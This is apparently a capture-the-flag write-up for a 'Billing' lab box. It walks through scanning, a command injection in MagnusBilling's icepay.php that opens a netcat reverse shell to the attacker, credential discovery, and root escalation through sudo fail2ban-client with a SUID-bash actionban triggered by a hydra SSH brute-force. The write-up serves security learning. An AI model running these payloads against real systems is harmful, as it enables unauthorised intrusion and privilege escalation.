 # Billing

### Billing
Nmap scan finds ports 22,80,.3306 and 5038 open. 

    PORT     STATE SERVICE  VERSION
    22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
    | ssh-hostkey: 
    |   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
    |   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
    |_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
    80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
    | http-title:             MagnusBilling        
    |_Requested resource was http://10.10.51.171/mbilling/
    |_http-server-header: Apache/2.4.56 (Debian)
    | http-robots.txt: 1 disallowed entry 
    |_/mbilling/
    3306/tcp open  mysql    MariaDB (unauthorized)
    5038/tcp open  asterisk Asterisk Call Manager 2.10.6
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Gobuster discovers the following directories: <br />
![image](https://github.com/user-attachments/assets/2660e71b-f82e-486d-b403-eadb74210d1c)<br />
Moving around the website and enumerating directories, I found the following file: <br />
![image](https://github.com/user-attachments/assets/6de3594e-1895-41e4-88a5-c83865d05457)<br />
It means that some software called `MagnusBilling` is running. 
Looking around, I found [this website](https://sploitus.com/exploit?id=1337DAY-ID-39148) that shows a metasploit module to perform command injection. I'm actually not even sure if it works because I don't know how to check the version of this software, but anyway I'll try. <br />
I don't like metasploit really so I'll do it manually. The exploit is basically a command injection on a vulnerable php parameter. To exploit it, I open a netcat listener on port 9001 and then run:

    10.10.26.88/mbilling/lib/icepay/icepay.php?democ=/dev/null;busybox nc 10.11.85.53 9001 -e sh;#
This opens a reverse shell! Moving around the system, I found a configuration file containing a database password: <br />
![image](https://github.com/user-attachments/assets/9514e13a-e182-4f19-b21a-73589dc75bea)<br />
I use this credentials to log into the database. Looking around the DB I found a password: <br />
![image](https://github.com/user-attachments/assets/2ca1144d-1641-482e-924d-381b54baf72d)<br />
I'm trying to crack this hash but it doesn't work. Next, my user has sudo privileges on fail2ban:<br />
![image](https://github.com/user-attachments/assets/831652bb-701c-421a-988b-8b54366f8652)<br />
Fail2ban is an IDS. It is able to detect bruteforce attempts, and can ban IP addresses using iptables rules. <br />
Having sudo privileges on fail2ban can lead to privilege escalation. Basically we can configure fail2ban to execute a specific command on the system whenever it detects bruteforce attempts on a specific service. The format of the command is this: `get <JAIL> action <ACT> actionban`, where JAIL is essentially a service from which it detects a bruteforce, such as ssh, http, etc.. and ACT is the action to perform, for example banning an IP. I'm going to exploit this with the following command: 

    sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "cp /bin/bash /tmp && chmod 4755 /tmp/bash"
An "actionban" can be specified to execute a system command whenever an event happens. So basically we're saying: everytime you detect a bruteforce attack on ssh and you perform the action "iptables-multiport"(which means to ban an IP address on multiple ports), also execute the following command, which creates a SUID copy of /bin/bash.<br />
Now I run `hydra 10.10.196.108 -l root -P /usr/share/wordlists/rockyou.txt ssh`, so that this rule will be triggered, and the SUID `bash` gets created in side `/tmp/bash`.<br />
![image](https://github.com/user-attachments/assets/cc14a930-2dee-43b2-96aa-3d051d94f67f)<br />

